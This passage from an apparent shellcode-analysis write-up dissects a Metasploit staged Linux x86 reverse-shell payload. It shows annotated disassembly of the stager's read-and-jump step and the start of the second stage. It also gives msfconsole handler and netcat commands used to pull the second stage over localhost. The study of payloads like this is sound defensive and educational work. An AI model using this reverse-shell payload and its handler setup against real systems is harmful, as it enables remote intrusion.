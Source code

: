 {% sidenote Since `connect()` stores `0x0` into `EAX` on success, after `CDQ`, the register `EDX` is zeroed %}

```nasm
                            ; EAX = 0x3, which is the read syscall
0000002C  B003              mov al,0x3
0000002E  CD80              int 0x80

00000030  FFE1              jmp ecx
```

{% sidenote Call `read()` in order to receive data from the server socket, and jump to `ECX` (pointer to the top of the stack), where data is stored %}

This last block of code allows the shellcode to receive data from the Server Socket. Data is placed on the stack.

It translates into the following C code:

```cpp
// fd is the file descriptor of the socket created with socket()
// ECX -> pointer to the top of stack, where data will be stored

read(fd, ECX, 3072);
```

Up until now, I only analysed the 1st stage of the shellcode. To analyse the 2nd stage, I had to connect to a listening `Server`:

```bash
sudo msfconsole
# msf6 > use exploit/multi/handler
# msf6 exploit(multi/handler) > set PAYLOAD  linux/x86/shell/reverse_nonx_tcp
# msf6 exploit(multi/handler) > set LHOST 127.0.0.1
# msf6 exploit(multi/handler) > set LPORT 4444
# msf6 exploit(multi/handler) > run -j
```

In another terminal window:

```bash
nc 127.0.0.1 4444 > stage2.bin

ndisasm -b 32 -p intel stage2.bin
```

Follows the assembly of the second stage:

```nasm
                            ; save File Descriptor of the Server Socket into EDI
00000000  89FB              mov ebx, edi

                            ; push 0x00000002 and move it into ECX
00000002  6A02              push byte +0x2
00000004  59                pop ecx
```

{% sidenote The instruction `push byte` is useful when you want to push a 32-bit integer value like `0x00000002` but you have to avoid `NULL` bytes. Moreover, it uses only `2` bytes %}
